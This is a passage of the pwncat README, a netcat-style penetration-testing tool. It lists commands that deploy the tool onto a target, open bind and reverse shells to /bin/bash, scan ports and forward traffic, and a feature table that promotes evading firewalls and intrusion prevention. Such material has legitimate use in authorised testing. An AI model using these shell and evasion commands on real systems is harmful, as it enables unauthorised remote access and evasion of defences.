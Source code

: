 target\n```bash\n# Copy base64 data to clipboard from where you have internet access\ncurl https://raw.githubusercontent.com/cytopia/pwncat/master/bin/pwncat | base64\n\n# Paste it on the target machine\necho \"<BASE64 STRING>\" | base64 -d > pwncat\nchmod +x pwncat\n```\n\n### Inject to target\n```bash\n# [1] If you found a vulnerability on the target to start a very simple reverse shell,\n# such as via bash, php, perl, python, nc or similar, you can instruct your local\n# pwncat listener to use this connection to deploy itself on the target automatically\n# and start an additional unbreakable reverse shell back to you.\npwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445\n```\n> <sup>[1] [Read in more detail about self-injection](#self-injecting-reverse-shell)\n\n### Summon shells\n```bash\n# Bind shell (accepts new clients after disconnect)\npwncat -l -e '/bin/bash' 8080 -k\n```\n```bash\n# Reverse shell (Ctrl+c proof: reconnects back to you)\npwncat -e '/bin/bash' example.com 4444 --reconn --recon-wait 1\n```\n```bash\n# Reverse UDP shell (Ctrl+c proof: reconnects back to you)\npwncat -e '/bin/bash' example.com 4444 -u --ping-intvl 1\n```\n\n### Port scan\n```bash\n# [TCP] IPv4 + IPv6\npwncat -z 10.0.0.1 80,443,8080\npwncat -z 10.0.0.1 1-65535\npwncat -z 10.0.0.1 1+1023\n\n# [UDP] IPv4 + IPv6\npwncat -z 10.0.0.1 80,443,8080 -u\npwncat -z 10.0.0.1 1-65535 -u\npwncat -z 10.0.0.1 1+1023 -u\n\n# Use only IPv6 or IPv4\npwncat -z 10.0.0.1 1-65535 -4\npwncat -z 10.0.0.1 1-65535 -6 -u\n\n# Add version detection\npwncat -z 10.0.0.1 1-65535 --banner\n```\n\n### Local port forward `-L` (listening proxy)\n```bash\n# Make remote MySQL server (remote port 3306) available on current machine\n# on every interface on port 5000\npwncat -L 0.0.0.0:5000 everythingcli.org 3306\n```\n```bash\n# Same, but convert traffic on your end to UDP\npwncat -L 0.0.0.0:5000 everythingcli.org 3306 -u\n```\n\n### Remote port forward `-R` (double client proxy)\n```bash\n# Connect to Remote MySQL server (remote port 3306) and then connect to another\n# pwncat/netcat server on 10.0.0.1:4444 and bridge traffic\npwncat -R 10.0.0.1:4444 everythingcli.org 3306\n```\n```bash\n# Same, but convert traffic on your end to UDP\npwncat -R 10.0.0.1:4444 everythingcli.org 3306 -u\n```\n\n> <sub>[SSH Tunnelling for fun and profit :link:](https://www.everythingcli.org/ssh-tunnelling-for-fun-and-profit-local-vs-remote/)</sub><br/>\n> <sub>[`pwncat` example: Port forwarding magic](#port-forwarding-magic)<sub>\n\n\n## :star: Features\n\n### At a glance\n\n`pwncat` has many features, below is only a list of outstanding characteristics.\n\n| Feature        | Description |\n|----------------|-------------|\n| [PSE](pse)        | Fully scriptable with Pwncat Scripting Engine to allow all kinds of fancy stuff on send and receive |\n| port scanning  | TCP und UDP port scanning with basic version detection support |\n| Self-injecting rshell | Self-injecting mode to deploy itself and start an unbreakable reverse shell back to you automatically |\n| Bind shell        | Create bind shells |\n| Reverse shell     | Create reverse shells |\n| Port Forward      | Local and remote port forward (Proxy server/client) |\n| <kbd>Ctrl</kbd>+<kbd>c</kbd> | Reverse shell can reconnect if you accidentally hit <kbd>Ctrl</kbd>+<kbd>c</kbd> |\n| Detect Egress     | Scan and report open egress ports on the target (port hopping) |\n| Evade FW          | Evade egress firewalls by round-robin outgoing ports (port hopping) |\n| Evade IPS         | Evade Intrusion Prevention Systems by being able to round-robin outgoing ports on connection interrupts (port hopping) |\n| UDP rev shell     | Try this with the traditional `netcat` |\n| Stateful UDP      | Stateful connect phase for UDP client mode |\n| TCP / UDP         | Full TCP and UDP support |\n| IPv4 / IPv6       | Dual or single stack IPv4 and IPv6 support |\n| Python 2+3        | Works with Python 2, Python 3, pypy2 and pypy3 |\n| Cross OS          | Work on Linux, MacOS and Windows as long as Python is available |\n| Compatability     | Use the `netcat`, `ncat` or `socat` as a client or server together with `pwncat` |\n| Portable          | Single file which only uses core packages - no external dependencies required. |\n\n\n### Feature comparison matrix\n\n|                     | pwncat   | netcat | ncat  | socat |\n|---------------------|----------|--------|-------|-------|\n| Scripting engine    | \u2714 Python | :x:    | \u2714 Lua | :x:   |\n|                     |          |        |       |       |\n| IP ToS              | \u2714        | \u2714      | :x:   | \u2714     |\n| IPv4                | \u2714        | \u2714      | \u2714     | \u2714     |\n| IPv6                | \u2714        | \u2714      | \u2714     | \u2714     |\n| Unix domain sockets | :x:      | \u2714      | \u2714     | \u2714     |\n| Linux vsock         | :x:      | :x:    | \u2714     | :x:   |\n| Socket source bind  | \u2714        | \u2714      | \u2714     | \u2714     |\n|                     |          |        |       |       |\n| TCP                 | \u2714        | \u2714      | \u2714     | \u2714     |\n| UDP                 | \u2714        | \u2714      | \u2714     | \u2714     |\n| SCTP                | :x:      | :x:    | \u2714     | \u2714     |\n| SSL                 | :x:      | :x:    | \u2714     | \u2714     |\n| HTTP                | \u2714        | :x:    | :x:   | :x:   |\n| HTTPS               | *        | :x:    | :x:   | :x:   |\n|                     |          |        |       |       |\n| Telnet negotiation  | :x:      | \u2714      | \u2714     | :x:   |\n| Proxy support       | :x:      | \u2714      | \u2714     | \u2714     |\n| Local port forward  | \u2714        | :x:    | :x:   | \u2714     |\n| Remote port forward | \u2714        | :x:    | :x:   | :x:   |\n|                     |          |        |       |       |\n| Inbound